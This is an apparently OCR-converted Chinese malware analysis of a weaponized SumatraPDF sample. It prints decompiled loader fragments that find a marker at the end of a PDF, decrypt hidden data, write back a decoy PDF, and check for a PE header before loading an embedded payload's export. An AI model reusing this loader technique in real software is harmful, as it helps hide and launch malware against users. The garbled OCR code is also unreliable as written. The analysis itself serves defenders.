在对被武器化的SumatraPDF样本进行详细分析时，我们揭示了其内部的复杂处理逻辑。该样本首先对加载的PDF文档进行精确读取，以确认文档是否符合特定的结束标识，即是否以$\mathrm{{'}0x78453212{}^{,}}$ 字节序列结尾。一旦确认，样本随后提取文档末尾的数据。这些数据随后通过一个预设的密钥和流密码进行解密处理。  

pdf_handle $=$ CreateFileW(pdf_name,0x80000000,1u, 0i64,3u, 0x80u, 0i64);  
pdf_handle_ $=$ pdf_handle;  
if （ pdf_handle $==$ -1i64)  
return 0i64;  
FileSize $=$ GetFileSize(pdf_handle, 0i64);  
Filesize_ $=$ Filesize;  
buffer $=$ LocalAlloc(0x40u, FileSize);  
memset(buffer, 0, FileSize);  
ReadFile(pdf_handle_, buffer, FileSize, &Number0fBytesRead, 0i64);  
CloseHandle(pdf_handle_);  
if （ \*&buffer[FileSize - 4] $\!=$ 0x78563412）//文档最后4个字节数据是否存在标记0x78563412return 0i64;  
$\vee9=5\mathrm{tr}$   
v10 $=$ 4i64;  
$\vee11=$ &buffer[FileSize - 524]; //文件尾部524个字节  
dowhile ( v10 );  
$^{*}\vee9=^{*}\vee11$   
sub_14000c080(buffer1, key, key);  
sub_14000c210(buffer1, Str, Str, 520ui64); / / 解密$\vee13=$ wcschr(Str, '|'):  

经过解密处理的数据显示出一种特定的格式：它们由字符“|”分隔，形成了多组字符串。在这些字符串中，第一组代表了一个新的PE文件的导出函数名。而第二组则是由四位数字组成的标识符。这个四位数的标识符在攻击过程中扮演了关键角色，其用途是在与攻击者的控制服务器（C2）通信时标识触发该过程的特定样本母体。  

v13 = wcschr(Str, 'I');   
if （!v13)   
{ do { v14 = \*(Str + v1); $\vee1+=2\dot{1}64$ 7 while (v14 ); return 1i64;   
wcsncpy(WideCharStr, Str, v13 - Str); //第一组字符   
WideCharStr[v13 - Str] $=0$   
$\times15=\times13+1;$   
if（ $\vee13==-2\dot{1}64$ return 1i64;   
$\vee16=$ wcschr( $\vee13+1$ ');   
if (v16 )   
{ v19 = v16 - v15; wcsncpy(Destination, v15, v19); //第二组字符 Destination $\left[\vee19\right]~=~\Theta_{,}$   
else   
{ $\begin{array}{r l}{\vee17}&{{}=}\end{array}$ (Destination - v15); do { v18 = \*v15++;  

在执行其恶意逻辑的过程中，该代码继续尝试将解密后的诱饵PDF文件内容写回到原文件。若此直接写入操作失败，它接着尝试在系统的临时文件夹的上一级目录中创建并写入一个新的文件。  

veieteriiew(pui_llde),   
$\vee22=2$   
hFile $=$ CreateFileW(lpFileName，0x40000000u，4u，0i64，2u，0x80u，0i64);// 打开pdf文件   
$\vee24=$ hFile;   
if （hFile $==$ -1i64)   
{ GetTempPathW(0x104u, Buffer); wsprintfW(Buffer，L"%s\\..\\%s"，Buffer，lpFileName);//在%temp%目录上一级释放诱饵pdf文件 DeleteFileW(Buffer); $\yen25=$ CreateFileW(lpFileName,0x40000000u,4u,0i64,2u,0x80u,0i64); WriteFile(v25, lpBuffer, nNumber0fBytesToWrite, &NumberOfBytesWritten, 0i64); CloseHandle(v25);   
}   
else WriteFile(hFile, lpBuffer, nNumberOfBytesToWrite, &NumberOfBytesWritten, 0i64); CloseHandle(v24); $\vee22=1$  

样本在完成前述步骤后继续对数据进行解密。解密完成后，它执行一个关键的验证步骤，即检查数据是否以“ $\mathrm{0x5A4D^{\prime}}$ 开始。这一序列是PE格式文件头的标识特征字，用于确认解密数据的有效性及其作为可执行代码的身份。若验证结果为真，样本随即进行下一步操作：加载解密出的PE文件的导出函数，并向其传递特定参数。此过程揭示了样本在执行恶意代码之前进行严格合法性检查的能力，这不仅增加了其逃避检测的可能性，也表明了其执行流程的精密和高效。  
